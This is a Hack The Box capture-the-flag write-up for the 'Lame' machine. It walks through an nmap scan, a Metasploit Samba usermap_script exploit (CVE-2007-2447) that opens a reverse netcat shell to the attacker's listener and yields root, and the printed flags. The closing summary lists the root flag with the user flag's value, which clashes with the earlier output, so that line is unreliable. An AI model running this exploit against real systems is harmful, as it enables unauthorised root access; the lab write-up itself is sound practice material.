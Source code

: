 ## Lame - Hack The Box Writeup

[Room Link](https://app.hackthebox.com/machines/1)

Lame is an easy Linux machine, requiring only one exploit to obtain root access. It was the first machine published on Hack The Box and was often the first machine for new users prior to its retirement.

**IP: 10.10.10.3**

**Replace [YOUR-HTB-IP] with your own machine IP assigned by Hack The Box.**

---

## 📌 General Information

**Room Difficulty**: Easy  <br>

**Room Type**: Linux Privilege Escalation <br>

**Tools Used**: Nmap, Metasploit<br>

**Author**: <br>

[<img align='center' src="https://github.com/mauzware/mauzware/blob/main/BANNER.png"/>](https://github.com/mauzware)

[GitHub Profile](https://github.com/mauzware)

---

## 🔍 Enumeration

- Starting off with Nmap scan.

  ```
  $ nmap -sC -sV -p- 10.10.10.3

  PORT     STATE SERVICE     VERSION
  21/tcp   open  ftp         vsftpd 2.3.4
  |_ftp-anon: got code 500 "OOPS: cannot change directory:/home/ftp".
  22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
  | ssh-hostkey: 
  |   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
  |_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
  139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
  445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
  3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
  Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
  
  Host script results:
  |_smb2-time: Protocol negotiation failed (SMB2)
  |_clock-skew: mean: 2h00m52s, deviation: 2h49m44s, median: 50s
  | smb-os-discovery: 
  |   OS: Unix (Samba 3.0.20-Debian)
  |   Computer name: lame
  |   NetBIOS computer name: 
  |   Domain name: hackthebox.gr
  |   FQDN: lame.hackthebox.gr
  |_  System time: 2025-06-11T16:47:16-04:00
  | smb-security-mode: 
  |   account_used: guest
  |   authentication_level: user
  |   challenge_response: supported
  |_  message_signing: disabled (dangerous, but default)
  ```
  
- Hmmmmm, no web app? Interesting. I also did `enum4linux` and tried to access some shares but it was unsuccessful.

---

## ⚙️ Shell Access

- So, I pivoted to Metasploit in order to find an exploit for `CVE-2007-2447` like it is provided in a hint. There is only one exploit found in Metasploit.

  ```
  msf6 > search CVE-2007-2447

  Matching Modules
  ================
  
     #  Name                                Disclosure Date  Rank       Check  Description
     -  ----                                ---------------  ----       -----  -----------
     0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution

  msf6 > use 0
  [*] No payload configured, defaulting to cmd/unix/reverse_netcat
  msf6 exploit(multi/samba/usermap_script) > 
  
  msf6 exploit(multi/samba/usermap_script) > show options
  
  Module options (exploit/multi/samba/usermap_script):
  
     Name     Current Setting  Required  Description
     ----     ---------------  --------  -----------
     CHOST                     no        The local client address
     CPORT                     no        The local client port
     Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
     RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/ba
                                         sics/using-metasploit.html
     RPORT    139              yes       The target port (TCP)
  
  
  Payload options (cmd/unix/reverse_netcat):
  
     Name   Current Setting  Required  Description
     ----   ---------------  --------  -----------
     LHOST  [YOUR-HTB-IP]    yes       The listen address (an interface may be specified)
     LPORT  4444             yes       The listen port
  
  
  Exploit target:
  
     Id  Name
     --  ----
     0   Automatic
  ```
  
- Now, fill all the parameters and run the exploit. You will get a root shell lol.

  ```
  msf6 exploit(multi/samba/usermap_script) > set LHOST [YOUR-HTB-IP]
  LHOST => [YOUR-HTB-IP]
  msf6 exploit(multi/samba/usermap_script) > set RHOSTS 10.10.10.3
  RHOSTS => 10.10.10.3
  msf6 exploit(multi/samba/usermap_script) > run
  [*] Started reverse TCP handler on [YOUR-HTB-IP]:4444 
  [*] Command shell session 1 opened ([YOUR-HTB-IP]:4444 -> 10.10.10.3:37837) at 2025-06-11 21:57:19 +0100
  
  whoami
  root
  id
  uid=0(root) gid=0(root)
  ```

---

## 👑 Flags

- Since we are already root, just read both flags. Cya in the next one!

  ```
  cd /home
  ls -al
  total 12
  drwxr-xr-x  3 root  root  4096 Jun 11 08:46 .
  drwxr-xr-x 21 root  root  4096 Oct 31  2020 ..
  drwxr-xr-x  2 makis makis 4096 Jun 11 08:46 makis
  
  cd makis
  ls -al
  total 12
  drwxr-xr-x 2 makis makis 4096 Jun 11 08:46 .
  drwxr-xr-x 3 root  root  4096 Jun 11 08:46 ..
  -rw-r--r-- 1 makis makis   33 Jun 11 00:02 user.txt
  
  cat user.txt    
  197ebb944a9b97112da2ab59e61a6c4d
  
  cat /root/root.txt
  d012057e617b0cadbdddd333372c7b1c
  ```

---

## 🏁 Flags

- **User Flag**: `197ebb944a9b97112da2ab59e61a6c4d`
- **Root Flag**: `197ebb944a9b97112da2ab59e61a6c4d`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Nothing.`

- What did I learn?
  `Nothing new, just sharpening my skills.`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
